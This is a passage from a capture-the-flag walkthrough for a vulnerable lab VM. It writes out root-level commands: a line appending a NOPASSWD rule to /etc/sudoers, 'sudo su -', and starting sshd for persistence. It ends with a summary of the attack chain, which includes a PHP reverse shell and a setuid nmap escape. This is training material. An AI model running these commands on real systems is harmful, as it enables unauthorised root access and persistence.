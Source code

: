     ```shell
    ! id
    ```

57. You've got the ability to run commands as `root`.  Let's use this as effectively as possible.  Let's add our `robot` user to the sudoers file.

    ```shell
    ! echo "robot ALL=(ALL) NOPASSWD:ALL" >>/etc/sudoers
    ```

58. Next, we'll go back to our `robot` user and run `sudo` to get root.  First, exit the nmap shell:


    ```shell
    exit
    ```

59. Run your python `shell.py` program to get a TTY so we can use sudo:

    ```shell
    python /tmp/shell.py
    ```
    
60. Now, sudo to root:

    ```shell
    sudo su -
    ```

61. Take a look at `root`'s home directory to see if there are flags or other loot.

    ```shell
    ls
    ```


62. Grab the third flag:

    ```shell
    cat key-3-of-3.txt
    ```

63. This is your system now! Activate the SSH server for a more convenient login method.  The SSH server is somehow a little broken on this system, potentially because the creator didn't want us to do this, so we'll run this:

    ```shell
    mkdir /var/run/sshd
    /usr/sbin/sshd &
    ```

64. Now let's move into defending this system.  We can keep using this same reverse shell to harden the system, or we can SSH in.

65. If you think through the attack, it had these steps:

    1. Guess access credentials to the Wordpress authoring functionality
    2. Plant a PHP-reverse shell in Wordpress
    3. Trigger the shell and thus gain the web server's user: `daemon`
    4. Find an MD5 hash of human user `robot`'s password and reverse it to the password
    5. `su` to user `robot` using the reversed password
    6. Find an unusual/vulnerable Set-UID program, `nmap`
    7. Exploit shell-based functionality in `nmap` to gain `root`
    